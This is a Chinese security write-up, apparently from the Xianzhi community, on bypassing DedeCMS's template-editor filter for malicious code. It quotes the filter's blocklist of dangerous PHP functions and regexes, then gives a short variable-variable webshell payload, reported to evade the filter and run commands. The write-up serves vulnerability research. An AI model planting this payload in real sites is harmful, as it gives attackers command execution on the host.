









# Dedecms 模板编辑绕过 waf 写入恶意代码探寻-先知社区

> **来源**: https://xz.aliyun.com/news/16996  
> **文章ID**: 16996

---

# Dedecms 模板编辑绕过 waf 写入恶意代码分析

## 环境搭建

下载源码

<https://www.dedecms.com/>  


进入后台直接访问 dede



## 漏洞发现

首先我们进入后台后发现可以编辑文件



然后不相当于可以控制 php 文件了吗

所以当即随便写一个执行命令的



但是被 ban 了

奇怪尝试其他执行命令的函数


phpinfo 都不行

然后再次尝试了其他的执行命令的函数  
比较少见的

passthru

passthru 是 PHP 中的一个函数，用来执行一个外部命令并直接将命令的输出（通常是二进制数据）显示到浏览器或终端。与 exec() 不同的是，passthru() 会直接输出命令的原始输出，而不是返回一个字符串。

官方给的例子

```
Regarding swbrown's comment...you need to use an output buffer if you don't want the data displayed.

For example:
ob_start();
passthru("<i>command</i>");
$var = ob_get_contents();
ob_end_clean(); //Use this instead of ob_flush()

This gets all the output from the command, and exits without sending any data to stdout.
```




还是一样的不 ok

这时候我就去看代码到底是怎么写的了

## 代码分析

关键代码

```
if($dopost=='save')
{
    csrf_check();

    $fp = fopen($m_file,'w');
    flock($fp,3);
    fwrite($fp,$templates);
    fclose($fp);

    global $cfg_basehost, $cfg_cmspath;
    $content = file_get_contents($cfg_basehost.$cfg_cmspath.'/data/template.rand.php');

    // 不允许这些字符
    $content = preg_replace("#(/\*)[\s\S]*(\*/)#i", '', $content);
    
    global $cfg_disable_funs;
    $cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : 'phpinfo,eval,assert,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite,preg_replace';
    $cfg_disable_funs = $cfg_disable_funs.',[$]GLOBALS,[$]_GET,[$]_POST,[$]_REQUEST,[$]_FILES,[$]_COOKIE,[$]_SERVER,include,require,create_function,array_map,call_user_func,call_user_func_array,array_filert';
    foreach (explode(",", $cfg_disable_funs) as $value) {
        $value = str_replace(" ", "", $value);
        if(!empty($value) && preg_match("#[^a-z]+['"]*{$value}['"]*[\s]*[([{']#i", " {$content}") == TRUE) {
            $content = dede_htmlspecialchars($content);
            $fp = fopen($m_file,'w');
            fwrite($fp, '');
            fclose($fp);
            die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$content}</pre>");
        }
    }

    if(preg_match("#^[\s\S]+<\?(php|=)?[\s]+#i", " {$content}") == TRUE) {
        if(preg_match("#[$][_0-9a-z]+[\s]*[(][\s\S]*[)][\s]*[;]#iU", " {$content}") == TRUE) {
            $content = dede_htmlspecialchars($content);
            $fp = fopen($m_file,'w');
            fwrite($fp, '');
            fclose($fp);
            die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$content}</pre>");
        }
        if(preg_match("#[@][$][_0-9a-z]+[\s]*[(][\s\S]*[)]#iU", " {$content}") == TRUE) {
            $content = dede_htmlspecialchars($content);
            $fp = fopen($m_file,'w');
            fwrite($fp, '');
            fclose($fp);
            die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$content}</pre>");
        }
        if(preg_match("#[`][\s\S]*[`]#i", " {$content}") == TRUE) {
            $content = dede_htmlspecialchars($content);
            $fp = fopen($m_file,'w');
            fwrite($fp, '');
            fclose($fp);
            die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$content}</pre>");
        }
    }

    $okmsg = '成功保存配置信息 AT:('.MyDate('H:i:s', time()).')';
}
```

首先是获取我们的内容

```
$content = preg_replace("#(/\*)[\s\S]*(\*/)#i", '', $content);

```

就是获取除了注释之外的内容

```
/* 这是一个注释 */
echo "Hello World!";

```

得到的是

```
echo "Hello World!";
```

ban 了常用的 php 恶意函数和全局变量

```
$cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : 'phpinfo,eval,assert,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite,preg_replace';
$cfg_disable_funs = $cfg_disable_funs.',[$]GLOBALS,[$]_GET,[$]_POST,[$]_REQUEST,[$]_FILES,[$]_COOKIE,[$]_SERVER,include,require,create_function,array_map,call_user_func,call_user_func_array,array_filert';
foreach (explode(",", $cfg_disable_funs) as $value) {
    $value = str_replace(" ", "", $value);
    if(!empty($value) && preg_match("#[^a-z]+['"]*{$value}['"]*[\s]*[([{']#i", " {$content}") == TRUE) {
        $content = dede_htmlspecialchars($content);
        $fp = fopen($m_file,'w');
        fwrite($fp, '');
        fclose($fp);
        die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$content}</pre>");
    }
}
```

检查常见的恶意调用拼接

第一条正则：检查文件是否含有 `<?php 或 <?= 标签。  
第二条正则：检查是否存在像` \_POST(...) 的调用。  
第四条正则：检查是否有反引号（通常用于命令执行）。

```
if(preg_match("#^[\s\S]+<\?(php|=)?[\s]+#i", " {$content}") == TRUE) {
    if(preg_match("#[$][_0-9a-z]+[\s]*[(][\s\S]*[)][\s]*[;]#iU", " {$content}") == TRUE) {
        $content = dede_htmlspecialchars($content);
        $fp = fopen($m_file,'w');
        fwrite($fp, '');
        fclose($fp);
        die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$content}</pre>");
    }
    if(preg_match("#[@][$][_0-9a-z]+[\s]*[(][\s\S]*[)]#iU", " {$content}") == TRUE) {
        $content = dede_htmlspecialchars($content);
        $fp = fopen($m_file,'w');
        fwrite($fp, '');
        fclose($fp);
        die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$content}</pre>");
    }
    if(preg_match("#[`][\s\S]*[`]#i", " {$content}") == TRUE) {
        $content = dede_htmlspecialchars($content);
        $fp = fopen($m_file,'w');
        fwrite($fp, '');
        fclose($fp);
        die("DedeCMS提示：当前页面中存在恶意代码！<pre>{$content}</pre>");
    }
}

```

所以感觉是把我们执行命令已经限制死了

如何绕过呢？

## 绕过 waf 分析

首先就是执行恶意命令必须要恶意函数的问题，这个必须要解决

想了一个办法，间接出现就 ok 了

没错就是拼接



可以看到是可以的

但是还是不可以



想起来了会动态调用也被 ban 了

然后最后想起来了 CTF 经常出现的一种方法

```
<?php
$a = '_GET';
$$a[1]($$a[0]);
?>
```

这次成功保存了，然后我们看写入的是什么文件



然后查看一下文件



确实改了，我们尝试执行命令



终于是成功了
